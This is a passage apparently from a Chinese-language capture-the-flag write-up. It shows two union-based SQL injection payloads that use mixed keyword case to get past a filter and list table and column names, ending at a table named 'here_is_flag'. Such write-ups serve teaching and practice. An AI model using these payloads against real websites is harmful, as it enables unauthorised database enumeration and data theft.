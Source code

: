大小写绕过，可以联合注入，均有回显

![image-20231210141934796](images/30.png)

```
?id=-1' union Select 1,2,database(),4,group_concat(tAble_name) from infoRmation_schema.tables Where Table_schema=Database()--+

?id=-1' union Select 1,2,database(),4,group_concat(coLumn_name) from infoRmation_schema.columns Where Table_name='here_is_flag'--+
```

![image-20231210142535152](images/31.png)

## Unserialize？
